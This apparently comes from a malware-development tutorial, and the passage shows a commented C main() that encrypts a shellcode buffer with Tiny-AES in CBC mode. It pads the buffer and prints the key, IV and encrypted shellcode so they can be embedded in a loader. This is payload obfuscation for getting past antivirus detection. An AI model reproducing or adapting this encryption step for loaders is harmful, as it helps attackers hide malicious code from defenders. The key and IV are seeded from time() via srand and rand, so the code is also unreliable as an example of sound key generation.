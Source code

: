 ```c

	return TRUE;
}
```

and there is the commented main : 

```c

int main() {
	// struct needed for Tiny-AES library
	struct AES_ctx ctx;

	BYTE pKey[KEYSIZE];                             // KEYSIZE is 32 bytes
	BYTE pIv[IVSIZE];                                // IVSIZE is 16 bytes

	srand(time(NULL));                              // the seed to generate the key
	GenerateRandomBytes(pKey, KEYSIZE);             // generating the key bytes

	srand(time(NULL) ^ pKey[0]);                    // The seed to generate the IV. Use the first byte of the key to add more randomness.
	GenerateRandomBytes(pIv, IVSIZE);               // Generating the IV

	// Prints both key and IV to the console
	PrintHexData("pKey", pKey, KEYSIZE);
	PrintHexData("pIv", pIv, IVSIZE);

	// Initializing the Tiny-AES Library
	AES_init_ctx_iv(&ctx, pKey, pIv);

	// Initializing variables that will hold the new buffer base address in the case where padding is required and its size
	PBYTE	PaddedBuffer = NULL;
	SIZE_T	PAddedSize = 0;

	// Padding the buffer, if required
	if (sizeof(shellcode) % 16 != 0) {
		PaddBuffer(shellcode, sizeof(shellcode), &PaddedBuffer, &PAddedSize);
		// Encrypting the padded buffer instead
		AES_CBC_encrypt_buffer(&ctx, PaddedBuffer, PAddedSize);
		// Printing the encrypted buffer to the console
		PrintHexData("shellcode", PaddedBuffer, PAddedSize);
	}
	// No padding is required, encrypt 'Data' directly
	else {
		AES_CBC_encrypt_buffer(&ctx, shellcode, sizeof(shellcode));
		// Printing the encrypted buffer to the console
		PrintHexData("shellcode", shellcode, sizeof(shellcode));
	}
	// Freeing PaddedBuffer, if necessary
	if (PaddedBuffer != NULL) {
		HeapFree(GetProcessHeap(), 0, PaddedBuffer);
	}
	system("PAUSE");
	return 0;
}
```
